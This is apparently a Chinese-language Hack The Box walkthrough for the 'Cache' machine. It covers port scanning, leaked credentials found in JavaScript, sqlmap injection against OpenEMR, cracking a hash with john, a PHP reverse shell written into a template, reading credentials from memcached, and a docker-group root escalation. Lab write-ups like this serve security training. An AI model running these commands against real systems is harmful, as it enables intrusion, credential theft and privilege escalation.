 # Cache\_188

![image-20200917090522701](assets/Cache_188.assets/image-20200917090522701.png)

```bash
sudo masscan 10.10.10.188 --rate=1000 -p1-65535 -e tun0
```

![image-20200625200227498](assets/Cache_188.assets/image-20200625200227498.png)

```bash
sudo nmap -O -A -Pn -T4 -v -p22,80 10.10.10.188
```

![image-20200625200348492](assets/Cache_188.assets/image-20200625200348492.png)

```bash
sudo nmap -T4 -v -Pn --script=vuln -p22,80 10.10.10.188
```

![image-20200625200502861](assets/Cache_188.assets/image-20200625200502861.png)

![image-20200625202311237](assets/Cache_188.assets/image-20200625202311237.png)

![image-20200625202338152](assets/Cache_188.assets/image-20200625202338152.png)

debug直接在引用的js中发现了明文凭证

![image-20200625202429210](assets/Cache_188.assets/image-20200625202429210.png)

```bash
ash:H@v3_fun
```

使用凭证成功登录

![image-20200625202915285](assets/Cache_188.assets/image-20200625202915285.png)

但是没什么有用信息

继续查看其他页面。Author页面提供给我们一些线索

![image-20200625203302158](assets/Cache_188.assets/image-20200625203302158.png)

域名`cache.htb`加入hosts

![image-20200625203556072](assets/Cache_188.assets/image-20200625203556072.png)

另外提供给我们他们的一个项目`HMS(Hospital Management System)`

搜索了一下

![image-20200625203910771](assets/Cache_188.assets/image-20200625203910771.png)

存在漏洞利用，所以应该有这个页面。重新搜集关键词组成字典

```bash
cewl http://cache.htb/ -w wordlist.txt -d 10 -m 1
```

并没有枚举出更多的目录

![image-20200625205130145](assets/Cache_188.assets/image-20200625205130145.png)

参考到说HMS是另外的一个项目，所以HMS应该和cache.htb并不是同一个域名，而应该是独立的另外一个站点。参考htb一贯的规律，应该是`hms.htb`,但是还是FUZZ一下，演示正确做法

```bash
wfuzz -w wordlist.txt -H "HOST: FUZZ.htb" -u http://10.10.10.188/
```

![image-20200625205514248](assets/Cache_188.assets/image-20200625205514248.png)

过滤8193

```bash
wfuzz -w wordlist.txt -H "HOST: FUZZ.htb" -u http://10.10.10.188/ --hh 8193
```

![image-20200625205820616](assets/Cache_188.assets/image-20200625205820616.png)

`HMS.htb`加入hosts

![image-20200625205924313](assets/Cache_188.assets/image-20200625205924313.png)

重新浏览

![image-20200625210046225](assets/Cache_188.assets/image-20200625210046225.png)

查询漏洞利用

![image-20200625211552183](assets/Cache_188.assets/image-20200625211552183.png)

各个版本的漏洞很多，暂时还无法确定版本，whatweb和nikto也没有枚举出线索

先继续枚举目录，缩小范围。

![image-20200625211948843](assets/Cache_188.assets/image-20200625211948843.png)

![image-20200626040031138](assets/Cache_188.assets/image-20200626040031138.png)

没有进展。在google了一段时间后发现

![image-20200626040121354](assets/Cache_188.assets/image-20200626040121354.png)

根据视频演示，应该在`/portal/add_edit_event_user.php`的一个参数`eid`存在注入。

尝试验证。

先浏览`http://hms.htb/portal/`点击注册

![image-20200626040855614](assets/Cache_188.assets/image-20200626040855614.png)

此时会弹出注册页面

![image-20200626040937466](assets/Cache_188.assets/image-20200626040937466.png)

忽略掉，直接在地址栏输入`http://hms.htb/portal/add_edit_event_user.php?eid='`

弹出数据库错误信息，验证成功。

![image-20200626041107051](assets/Cache_188.assets/image-20200626041107051.png)

bp抓包

![image-20200626041234822](assets/Cache_188.assets/image-20200626041234822.png)

复制内容存为文件，并将之前eid的参数值改为1,以方便sqlmap识别

```bash
sqlmap -r sql_pack.txt --dbs --batch
```

![image-20200626041737686](assets/Cache_188.assets/image-20200626041737686.png)

```bash
sqlmap -r sql_pack.txt -D openemr --batch --tables
```

![image-20200626043000262](assets/Cache_188.assets/image-20200626043000262.png)

```bash
sqlmap -r sql_pack.txt -D openemr -T users_secure --columns --batch
```

![image-20200626043047299](assets/Cache_188.assets/image-20200626043047299.png)

```bash
sqlmap -r sql_pack.txt -D openemr -T users_secure -C password,username --batch --dump
```

![image-20200626043405028](assets/Cache_188.assets/image-20200626043405028.png)

```bash
$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | openemr_admin
```

解密hash

```bash
echo '$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.' > hash.txt
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![image-20200626043816623](assets/Cache_188.assets/image-20200626043816623.png)

```bash
openemr_admin：xxxxxx
```

使用凭证登录成功

![image-20200626044042610](assets/Cache_188.assets/image-20200626044042610.png)

![image-20200626044135140](assets/Cache_188.assets/image-20200626044135140.png)

在左侧下拉菜单中选择适合写入rshell的php，考虑到不影响其他功能，写入最后一个空白的php

将php rshell的内容存入

![image-20200626044726891](assets/Cache_188.assets/image-20200626044726891.png)

![image-20200626044937230](assets/Cache_188.assets/image-20200626044937230.png)

在1337端口设立监听

根据上面的上传文件路径，浏览`http://hms.htb/sites/default/letter_templates/custom_pdf.php`

成功在1337得到目标shell，利用之前得到的ash的凭证切换到ash

![image-20200626061625322](assets/Cache_188.assets/image-20200626061625322.png)

用户目录下得到user

![image-20200626061837992](assets/Cache_188.assets/image-20200626061837992.png)

在kali工作目录建立服务，将lse（[https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh）上传到靶机\`/tmp\`文件夹，用以快速枚举。](https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh）上传到靶机`/tmp`文件夹，用以快速枚举。)

![image-20200626063436871](assets/Cache_188.assets/image-20200626063436871.png)

![image-20200626063420525](assets/Cache_188.assets/image-20200626063420525.png)

```bash
./lse.sh -i -l 2
```

发现本地端口监听3306和11211,3306应该是数据库。11211一般是`memcached`

![image-20200626064903227](assets/Cache_188.assets/image-20200626064903227.png)

尝试利用memcached

可以通过telnet  &lt;端口（默认为11211）访问Memcache

```bash
telnet 127.0.0.1 11211
```

`stats items`枚举所有项目

![image-20200626071403371](assets/Cache_188.assets/image-20200626071403371.png)

只有一个项目，dump项目1所有的键，`stats cachedump 1 0`

![image-20200626071747551](assets/Cache_188.assets/image-20200626071747551.png)

`get user`读取`user`键的值

![image-20200626071916619](assets/Cache_188.assets/image-20200626071916619.png)

同样，`get passwd`读取passwd键的值

![image-20200626072110515](assets/Cache_188.assets/image-20200626072110515.png)

得到凭证

```bash
luffy:0n3_p1ec3
```

尝试ssh登录

![image-20200626072318797](assets/Cache_188.assets/image-20200626072318797.png)

同时发现luffy是docker组成员，可以直接gtfobins利用。

`docker images`列出所有docker镜像

![image-20200626072954374](assets/Cache_188.assets/image-20200626072954374.png)

```bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

![image-20200626073050413](assets/Cache_188.assets/image-20200626073050413.png)

![image-20200626073141752](assets/Cache_188.assets/image-20200626073141752.png)

